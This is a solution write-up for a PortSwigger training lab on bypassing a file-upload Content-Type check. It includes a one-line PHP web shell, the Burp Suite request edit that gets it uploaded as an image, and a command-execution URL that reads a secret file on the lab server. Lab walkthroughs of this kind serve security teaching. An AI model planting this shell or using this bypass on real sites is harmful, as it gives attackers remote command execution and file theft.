

[Source](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
## Task
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on validating user-controlled input to verify this.

To solve this task, download a basic PHP web shell and use it to retrieve the contents of the file `/home/carlos/secret`. Submit this secret using the button provided on the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the site and log in to your account. We see that it is possible to upload an image.
Upload any image. In `Burp Suite`, go to `HTTP history`, click on filters and check the `Images` box. In the request history we find a `GET` request with our image. We send it to `Repeater`.




We also find a `POST` request, which is responsible for loading the image. We also send it to `Repeater`. We see that this request contains `Content-Type: image/png`, and in the request for loading the PHP file `Content-Type: application/x-php`. We change `Content-Type: application/x-php` to `Content-Type: image/png`. And insert the PHP code:
```PHP
<?php echo system($_GET['command']); ?>
```
Sending a request:


Next to the request that loads the image onto the page. In the first line of the request, add:
```URL
/files/avatars/shell2.php?command=cat+/home/carlos/secret
```


```Secret
gMp0GsFxnzibF504mx23dPsW4vXiQzDL
```


